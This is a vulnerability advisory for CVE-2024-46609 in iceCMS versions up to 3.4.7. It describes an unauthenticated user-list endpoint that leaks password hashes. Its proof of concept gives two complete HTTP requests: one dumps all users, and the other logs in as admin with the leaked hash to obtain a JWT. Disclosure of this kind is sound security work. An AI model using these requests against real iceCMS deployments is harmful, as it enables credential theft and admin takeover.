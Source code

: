 
**[CVE-ID]**

CVE-2024-46609

**[PRODUCT]**

icecms

**[Vendor of Product]**

https://github.com/Thecosy/iceCMS?tab=readme-ov-file

**[VERSION]**

icecms <=3.4.7

**[Vulnerability Type]**

Incorrect Access Control

**[Description]**

Unauthorized acquisition of all user passwords.
The vulnerability is in the CheckVip function in UserController.java. The route of this function is @GetMapping("/getUserList/{page}/{limit}"). This interface does not perform authentication processing, resulting in attackers being able to directly request this interface to obtain the information of all users, including passwords.
![pic0](/icecms/PIC/CVE-2024-46609-0.png)



## POC：

Use Burpsuite to send the login data packet as follows. 
Through this interface, encrypted passwords of all users can be obtained without authorization.
```
GET /User/getUserList/1/50 HTTP/1.1
Host: localhost:8181
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="96"
Accept: application/json, text/plain, */*
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:9528
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:9528/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 2

```

![pic1](/icecms/PIC/CVE-2024-46609-11.png)

 
Then, the interface /UserLog/loginAdmin can be used to log in through the encrypted password, thereby obtaining the jwt authentication information of the user.
```
GET /UserLog/loginAdmin?username=admin&password=$argon2i$v=19$m=65536,t=3,p=1$Bd4DS8mtP2ZM3DInyCT/sg$pQixU/obFvmj9wZXu658pZ4G5epINkfdET17xx8X3R8 HTTP/1.1
Host: localhost:8181
sec-ch-ua: "Chromium";v="123", "Not:A-Brand";v="8"
Accept: application/json, text/plain, */*
Content-Type: application/x-www-form-urlencoded
sec-ch-ua-mobile: ?0
Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwic3ViIjoiMyIsImV4cCI6MTcyNzA4MjY1MywianRpIjoiYWQ5NDQ5OTgtYTFmNy00YWZlLWI4N2MtNDQ2NGI0OTI4YTgzIn0.MrUf_EPqXasTngKjkdkXg9WOeso8yhMs1mGxrKnwYPc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://192.168.110.175:9528
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://192.168.110.175:9528/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```

![pic2](/icecms/PIC/CVE-2024-46609-12.png)

